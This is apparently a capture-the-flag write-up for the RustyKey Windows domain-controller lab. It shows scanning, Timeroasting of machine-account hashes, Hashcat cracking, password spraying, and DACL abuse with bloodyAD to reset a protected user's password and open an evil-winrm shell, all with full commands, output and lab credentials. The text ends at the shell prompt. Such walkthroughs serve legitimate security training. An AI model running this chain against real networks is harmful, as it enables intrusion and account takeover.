## Entry

Machine Information
As is common in real life Windows pentests, you will start the RustyKey box with credentials for
the following account:
rr.parker / 8#t5HE8L!W3

### nmap

```bash
nmap -sCV -Pn -p- --min-rate=1000 -T4 10.10.11.75
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2025-06-
30 02:41:31Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain:
rustykey.htb0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain:
rustykey.htb0., Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open mc-nmf .NET Message Framing
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open msrpc Microsoft Windows RPC
49665/tcp open msrpc Microsoft Windows RPC
49666/tcp open msrpc Microsoft Windows RPC
49667/tcp open msrpc Microsoft Windows RPC
49669/tcp open msrpc Microsoft Windows RPC
49670/tcp open msrpc Microsoft Windows RPC
49671/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49673/tcp open msrpc Microsoft Windows RPC
49674/tcp open msrpc Microsoft Windows RPC
49677/tcp open msrpc Microsoft Windows RPC
49692/tcp open msrpc Microsoft Windows RPC
56301/tcp open msrpc Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Lets grab FQDN here with nxc

```bash
➜  RustyKey nxc ldap 10.10.11.75
LDAP        10.10.11.75     389    DC               [*] None (name:DC) (domain:rustykey.htb)
```

now we can creat our /etc/hosts file

```bash
➜  RustyKey cat /etc/hosts
10.10.11.75     DC.rustykey.htb rustykey.htb
```

Since we start Creds lets check smb and ldap if we have access.



There is 2 things we have to escape 😀 😀 Lets dump BH data since we have LDAP access.

### Bloodhound Data

```bash
➜  RustyKey faketime "$(ntpdate -q rustykey.htb | cut -d ' ' -f 1,2)" nxc ldap 10.10.11.75 -u 'rr.parker' -p '8#t5HE8L!W3A' -k --bloodhound --dns-server 10.10.11.75 --collection All
LDAP        10.10.11.75     389    DC               [*] None (name:DC) (domain:rustykey.htb)
LDAP        10.10.11.75     389    DC               [+] rustykey.htb\rr.parker:8#t5HE8L!W3A 
LDAP        10.10.11.75     389    DC               Resolved collection methods: psremote, localadmin, session, objectprops, container, dcom, acl, trusts, group, rdp  
```

Ingest into BHCE then let's go to analyze:



Our current rr.parker user is low privilege user.
We can see a huge number of computer objects:



There is too many computers right it was interesting for me and i look them one by one. 😀



and yeah i found i think.

## Timeroasting (IT-Computer3$)

We attempted common Active Directory enumeration techniques like **AS-REP roasting** and **Kerberoasting**, but neither yielded any results.

However, there's a newer attack technique worth exploring: **Timeroasting**.

### What is Timeroasting?

Think of Timeroasting (or as I like to call it, “time baking”) as a clever trick attackers use **after gaining a foothold** in a network. It exploits a subtle flaw in Microsoft’s **MS-SNTP (Secure Network Time Protocol)** implementation, particularly the way time synchronization is handled between domain-joined systems and the Domain Controller.

Here’s how it works:

The attacker impersonates a computer on the network and initiates a time sync with the Domain Controller by saying something like, “Hey, let’s match clocks!” During this process, they can trick the system into leaking a "photocopy of a photocopy" — the **MD5 digest of the NTLM hash** — belonging to **machine accounts**.

Once obtained, the attacker takes the hash home (figuratively speaking) and tries to **crack it offline**, using brute-force or dictionary attacks, hoping to recover the actual machine password.

Now, here’s the catch: most modern machine account passwords are **32-character random strings** auto-generated by the system — practically uncrackable, even with massive GPU rigs.

So, why bother with Timeroasting?

Because attackers aren't always looking for the strongest target. They're **looking for misconfigurations** — the weak links:

- **Weak machine passwords** set manually by admins. Sometimes, for convenience, an admin might set a password like `123456` or `Password1!` and forget to rotate it later.
- **Factory default passwords**: During mass deployments, IT may pre-create machine accounts with a default password for provisioning. If even one of these machines makes it to production without a password change, it’s a ticking time bomb.
- **Orphaned machine accounts**: Devices that have long since been decommissioned — maybe even physically scrapped — but their AD computer objects remain untouched, with passwords that haven’t changed in years. These "zombie" accounts are low-hanging fruit.

So the true value of Timeroasting lies not in cracking every hash, but in **“panning for gold”** — identifying the occasional weak or forgotten machine account among a sea of hardened ones.

### Tooling

Recently, tools like **NetExec** have added support for the `timeroast` module, and **Hashcat** now supports cracking the resulting hashes as well — making this attack vector more accessible and effective than ever.

```bash
➜  RustyKey faketime "$(ntpdate -q rustykey.htb | cut -d ' ' -f 1,2)" getTGT.py  rustykey.htb/rr.parker:'8#t5HE8L!W3A' -dc-ip 10.10.11.75                  

[*] Saving ticket in rr.parker.ccache
```

and export it

```bash
➜  RustyKey export KRB5CCNAME=rr.parker.ccache  
➜  RustyKey klist
Ticket cache: FILE:rr.parker.ccache
Default principal: rr.parker@RUSTYKEY.HTB

Valid starting       Expires              Service principal
07/02/2025 02:38:03  07/02/2025 12:38:03  krbtgt/RUSTYKEY.HTB@RUSTYKEY.HTB
        renew until 07/03/2025 02:38:02
```

and now we can use

```bash
faketime "$(ntpdate -q rustykey.htb | cut -d ' ' -f 1,2)" nxc smb dc.rustykey.htb -u 'rr.parker' -p '8#t5HE8L!W3A' -k -M timeroast
```



Got some hashes then prepare to use Hashcat to crack them:

```bash
➜  RustyKey faketime "$(ntpdate -q rustykey.htb | cut -d ' ' -f 1,2)" nxc smb dc.rustykey.htb -u 'rr.parker' -p '8#t5HE8L!W3A' -k -M timeroast > timehashes.txt            

➜  RustyKey grep -E '\$.{0,}' timehashes.txt -o > timeroast.hashes
➜  RustyKey cat timeroast.hashes 
$sntp-ms$f0f1fde00c60a17d3e6d8c123b4f6c35$1c0111e900000000000a2a034c4f434cec0f1b9fcd3c8846e1b8428bffbfcd0aec0f5302c1342edbec0f5302c13473a5
$sntp-ms$c55add1c2b9992ad50333673bc7e7431$1c0111e900000000000a2a034c4f434cec0f1b9fcdadede4e1b8428bffbfcd0aec0f53035dce6c09ec0f53035dcecf05
$sntp-ms$18845956d00599d2b4a67e8d86311f71$1c0111e900000000000a2a034c4f434cec0f1b9fcf8519afe1b8428bffbfcd0aec0f53035fa5a038ec0f53035fa60334
$sntp-ms$45bb6f1449c34f049454aae9d8ea5447$1c0111e900000000000a2a034c4f434cec0f1b9fcd12fee0e1b8428bffbfcd0aec0f5303610a9ebfec0f5303610ae388
$sntp-ms$e65ab82038f6f43aa41522f348579ab5$1c0111e900000000000a2a034c4f434cec0f1b9fce7fc837e1b8428bffbfcd0aec0f530362776b71ec0f53036277a984
$sntp-ms$65da5a9a4fd22ee53a7e12cefc4b51dd$1c0111e900000000000a2a034c4f434cec0f1b9fcff7d086e1b8428bffbfcd0aec0f530363ef7a76ec0f530363efb026
$sntp-ms$b98d70386d0ee50ca433fb4eeb8cb16f$1c0111e900000000000a2a034c4f434cec0f1b9fd05de30ae1b8428bffbfcd0aec0f530374765ba6ec0f5303747688f3
$sntp-ms$cbcc4896310a8c458573c1512fc37953$1c0111e900000000000a2a034c4f434cec0f1b9fce0cf32de1b8428bffbfcd0aec0f530375fc7607ec0f530375fca1a6
$sntp-ms$579eadad7f139d399676307b34625317$1c0111e900000000000a2a034c4f434cec0f1b9fce53d20fe1b8428bffbfcd0aec0f53037643533bec0f530376438235
$sntp-ms$56c4366faa2bb63547c109aaea811462$1c0111e900000000000a2a034c4f434cec0f1b9fccd2079fe1b8428bffbfcd0aec0f530378da0d27ec0f530378da4b3a
$sntp-ms$a3519cfcdac3ed9dbd529679e2ae58b1$1c0111e900000000000a2a034c4f434cec0f1b9fcd0c4dece1b8428bffbfcd0aec0f5303791460e0ec0f530379148e2c
$sntp-ms$166a1e66b0e0bdbeacdf8312e6331842$1c0111e900000000000a2a034c4f434cec0f1b9fce98f7b3e1b8428bffbfcd0aec0f53037aa103f1ec0f53037aa13b4e
$sntp-ms$477e32b827304ea413cbb37ecccb7690$1c0111e900000000000a2a034c4f434cec0f1b9fccbc0427e1b8428bffbfcd0aec0f53037cdc9b76ec0f53037cdce1ed
$sntp-ms$bfc314ea77a38d23df1020e1bfa62c57$1c0111e900000000000a2a034c4f434cec0f1b9fcdb2646be1b8428bffbfcd0aec0f53037dd305cbec0f53037dd33d29
$sntp-ms$5d4ab4e4c4abe719bb59cc3b879d4559$1c0111e900000000000a2a034c4f434cec0f1b9fcf5e7e3ae1b8428bffbfcd0aec0f53037f7f1f9aec0f53037f7f5dae
$sntp-ms$a3958cd3c77c0dc5a702a409fea79719$1c0111e900000000000a2a034c4f434cec0f1b9fccf84a29e1b8428bffbfcd0aec0f530380eff419ec0f530380f02b76
```

Then we use the [Hashcat beta version](https://hashcat.net/beta/) including the mode 31300 for MS SNTP:

```bash
7z x hashcat-6.2.6+1072.7z 
hashcat-6.2.6/hashcat.bin -a 0 -m 31300 timeroast.hashes /usr/share/wordlists/rockyou.txt
...
$sntp-
ms$62e171e78566a05290b376b3ea5a9261$1c0111e900000000000a5dff4c4f434cec0e08cd54b
8503ee1b8428bffbfcd0aec0e84b97ca7cfbdec0e84b97ca80064:Rusty88!
```


and yeah we found its Rusty88! Lets create users list and try password spray but it will work only for Computers off course

```bash
faketime "$(ntpdate -q rustykey.htb | cut -d ' ' -f 1,2)" nxc smb dc.rustykey.htb -u 'rr.parker' -p '8#t5HE8L!W3A' -k --rid-brute 
```



```bash
➜  RustyKey cat ridusers.txt | grep -i "SidTypeUser" | awk '{print $6}' | cut -d '\' -f2 > users.txt 
```

```bash
➜  RustyKey faketime "$(ntpdate -q rustykey.htb | cut -d ' ' -f 1,2)" nxc smb dc.rustykey.htb -u users.txt -p 'Rusty88!' -k                                 
[SNIP]
SMB         dc.rustykey.htb 445    dc               [+] rustykey.htb\IT-Computer3$:Rusty88! 
```

## DACL exploiting

We check our new discovery in BloodHound:



The computer IT-COMPUTER3$ has the ability to add itself to the group HELPDESK .

Because of security group delegation, the members of a security group have the same
privileges as that group. That means, by adding itself to the group, IT-COMPUTER3$
will gain the same privileges that HELPDESK already has

```bash
➜  RustyKey faketime "$(ntpdate -q rustykey.htb | cut -d ' ' -f 1,2)" bloodyAD --host dc.rustykey.htb -k -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' add groupMember HELPDESK 'IT-COMPUTER3$'              
[+] IT-COMPUTER3$ added to HELPDESK
```



The members of the group HELPDESK@RUSTYKEY.HTB have the capability to change
the password of listed users without knowing that user's current password:
DD.ALI
BB.MORGAN
GG.ANDERSON
EE.REED



The members of the group HELPDESK@RUSTYKEY.HTB have the capability to change
the password of listed users without knowing that user's current password:
DD.ALI
BB.MORGAN
GG.ANDERSON
EE.REED
3 of them are members of the group REMOTE MANAGEMENT USERS
But the problem is they are also members of the group PROTECTED OBJECTS , itself member of
the group PROTECTED USERS



Members of the PROTECTED USERS group are afforded additional protections against
authentication security threats.
See http://go.microsoft.com/fwlink/?LinkId=298939 for more information.

That part reallllyy important so watch out.



We can AddMember at Protected Objects so we can also **REMOVE and now watch**



We can remove group member of IT at Protcted Objects and set password off bb.morgan while its Protected Users member we can use.

Here is full commands and

```jsx
faketime "$(ntpdate -q rustykey.htb | cut -d ' ' -f 1,2)" getTGT.py rustykey.htb/IT-COMPUTER3:'Rusty88!'
export KRB5CCNAME=./IT-COMPUTER3.ccache
faketime "$(ntpdate -q rustykey.htb | cut -d ' ' -f 1,2)" bloodyAD --host dc.rustykey.htb -k -d rustykey.htb add groupMember HELPDESK 'IT-COMPUTER3$'
faketime "$(ntpdate -q rustykey.htb | cut -d ' ' -f 1,2)" bloodyAD -d 'rustykey.htb' -u 'it-computer3$' -p 'Rusty88!' -k --host 'dc.rustykey.htb' remove groupMember 'PROTECTED OBJECTS' "IT"
faketime "$(ntpdate -q rustykey.htb | cut -d ' ' -f 1,2)" bloodyAD --host dc.rustykey.htb -k -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' set password 'BB.MORGAN' Password123
unset KRB5CCNAME
faketime "$(ntpdate -q rustykey.htb | cut -d ' ' -f 1,2)" getTGT.py rustykey.htb/BB.MORGAN:'Password123'
export KRB5CCNAME=./BB.MORGAN.ccache 
evil-winrm -r rustykey.htb -i dc.rustykey.htb
```

Here is how they work



now we can grab our user.txt

```bash
➜  RustyKey faketime "$(ntpdate -q rustykey.htb | cut -d ' ' -f 1,2)" evil-winrm -r rustykey.htb -i dc.rustykey.htb 
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> cd C:\Users\bb.morgan\Desktop
